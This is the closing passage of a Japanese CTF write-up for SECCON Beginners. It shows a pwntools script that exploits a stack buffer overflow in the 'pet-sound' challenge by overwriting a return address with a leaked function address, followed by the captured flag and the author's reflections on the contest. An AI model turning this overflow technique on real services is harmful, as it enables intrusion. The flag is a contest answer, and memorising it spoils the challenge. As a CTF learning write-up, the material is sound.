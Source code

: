 ```py
from pwn import *

p = remote('pet-sound.challenges.beginners.seccon.jp', 9090)

p.recvuntil("[hint] The secret action 'speak_flag' is at: ")
addr = int(p.recvline().strip(), 16)

payload  = b"A" * 40
payload += p64(addr)

p.sendline(payload)

p.recvuntil(b"flag.txt")
print(p.recvall().decode())
```

`ctf4b{y0u_expl0it_0v3rfl0w!}`

## まとめ

参加者数がとても多く、面白い問題も多く非常に面白かった。来年はjail系があるといいなぁ...  
3カテゴリを全完で来て良かったが、cryptoやpwnのボス問は現状解ける気がしないのでまだまだだと感じる。
(チームメンバーがすごかった)  
今回始めてrevをまともにやり、結構楽しかったので今後もちょくちょく触っていきたい。
